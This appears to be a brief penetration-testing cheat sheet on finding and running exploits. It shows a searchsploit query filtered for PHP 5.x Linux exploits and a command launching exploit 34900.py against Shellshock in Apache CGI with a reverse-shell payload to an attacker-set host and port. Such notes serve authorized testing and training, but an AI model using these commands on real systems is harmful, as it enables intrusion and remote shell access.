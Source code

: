 # Exploits

## Searchsploit

Example, searching for PHP 5.5 exploits (for a Linux host):
```
searchsploit --color -t php 5 | grep -iE '[^.]5\.([0-9]{2,}|[5-9]|x)' | grep -vE '(windows/)|/(dos|local)/' | grep -vE '^UBBCentral|PHP-Nuke|Ovidentia|DCP-Portal'
```
## Shellshock Apache CGI

```
sudo ./34900.py payload=reverse rhost=xxx lhost=yyy lport=443 pages=/PATH
```
